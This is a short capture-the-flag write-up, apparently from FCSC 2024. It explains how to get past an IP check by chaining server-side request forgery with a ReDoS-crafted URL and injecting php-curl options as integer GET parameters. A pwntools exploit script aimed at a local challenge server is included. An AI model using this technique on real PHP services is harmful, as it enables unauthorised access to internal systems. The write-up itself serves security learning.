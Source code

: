 To bypass the ip check, a curl request can be made from the frontend to the fronted.  
Combined with the redos method, it's possible to pass *GET* arguments to the 2nd request.  

You can also add *options* to curl!  
These come from the ``php-curl`` library and can be used in int form. For each option, there's an int equivalent, allowing you to pass options as parameters.

All options for ``curl_setopt`` are listed here:   
- https://www.php.net/manual/en/function.curl-setopt.php  

The equivalents are referenced here:   
- https://gist.github.com/jseidl/3218673   
They can also be retrieved in php.  
```php
php > echo CURLOPT_USERAGENT;
10018
```

By adding ``&b=`` to the end of the url, the url formed will be the following: 

```
http://<game>?a=<redos>&options[...]=...&b=.fcsc2024.fr:5000
```

```python
from pwn import *
from urllib.parse import quote_plus as urlenc

context.log_level = 'critical'

redos = urlenc('?a='+'.'.join('voz.ec' for _ in range(30)))

def ssrf(where, options):
	io = remote('localhost', 8000, ssl=False)
	payload =f'''
/?game=localhost{redos}%26game%3d{where}{options}%26b%3D
'''[1:-1]
	io.send(f'''
GET {payload} HTTP/1.1\r
Host: localhost:8000\r
Connection: close\r
Upgrade-Insecure-Requests: 1\r
\r
\r
'''[1:-1].encode())

	result = io.recvall(timeout=30)
	print(str(result)[2:-1].replace('\\n','\n'))

mapping = {
	'CURLOPT_USERAGENT': '10018'
}
options = '&'.join([
	'',
	'options[CURLOPT_USERAGENT]=HelloThere',
])

for k, v in mapping.items():
	options = options.replace(k, v)


ssrf(
    where='pong',
    options=urlenc(options)
)
```


[//]: <> (Wrote By Vozec 12/04/2024)